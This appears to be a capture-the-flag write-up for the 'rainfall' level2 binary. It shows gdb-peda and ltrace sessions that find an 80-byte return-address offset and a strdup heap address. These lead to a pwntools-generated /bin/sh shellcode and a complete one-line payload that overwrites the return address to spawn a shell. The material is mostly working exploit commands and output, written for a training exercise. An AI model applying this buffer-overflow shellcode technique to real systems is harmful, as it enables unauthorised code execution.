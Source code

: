 - `gdb ./level2`
<pre>
gdb-peda$ pattern create 100
'AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AAL'
gdb-peda$ r < <(echo 'AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AAL')
Starting program: /home/alarm/rainfall/level02/Ressources/level2 < <(echo 'AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AAL')
AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAJAAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AAL

Program received signal SIGSEGV, Segmentation fault.

[----------------------------------registers-----------------------------------]
EAX: 0x804b580 ("AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAJAAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AAL")
EBX: 0x0 
ECX: 0x0 
EDX: 0x65 ('e')
ESI: 0xf7fb2000 --> 0x1d9d6c 
EDI: 0xf7fb2000 --> 0x1d9d6c 
EBP: 0x41344141 ('AA4A')
ESP: 0xffffd8a0 ("fAA5AAKAAgAA6AAL")
<strong>EIP: 0x41414a41 ('AJAA')</strong>
EFLAGS: 0x10282 (carry parity adjust zero SIGN trap INTERRUPT direction overflow)
Legend: code, data, rodata, value
Stopped reason: SIGSEGV
0x41414a41 in ?? ()
gdb-peda$ pattern offset AJAA
<strong>AJAA found at offset: 80</strong>
</pre>
- `python -c "print('a' * 75)" | ltrace ./level2`
<pre>
\_\_libc\_start\_main(0x804853f, 1, 0xbffff7f4, 0x8048550, 0x80485c0
fflush(0xb7fd1a20)                                     = 0
gets(0xbffff6fc, 0, 0, 0xb7e5ec73, 0x80482b5)          = 0xbffff6fc
puts("aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa"...)            = 76
<strong>strdup("aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa"...)          = 0x0804a008</strong>
+++ exited (status 8) +++
</pre>
- `python3 -c "import pwn; print(pwn.asm(pwn.shellcraft.sh()))"`
```
b'jhh///sh/bin\x89\xe3h\x01\x01\x01\x01\x814$ri\x01\x011\xc9Qj\x04Y\x01\xe1Q\x89\xe11\xd2j\x0bX\xcd\x80'
```

|  Size  |      Name      | Data                                           |
|:------:|:--------------:|------------------------------------------------|
| <br>76 |    <br>Stack   | - '\90' * 20<br>- ShellCode (44)<br>- 'a' * 12 |
|    4   |       SFP      | 'a' * 4                                        |
|    4   | Return Address | Adress strdup                                  |

- `((python -c 'print("\x90"*20 + "jhh///sh/bin\x89\xe3h\x01\x01\x01\x01\x814$ri\x01\x011\xc9Qj\x04Y\x01\xe1Q\x89\xe11\xd2j\x0bX\xcd\x80" + "A"*16 + "\x08\xa0\x04\x08")'); cat) | ./level2`
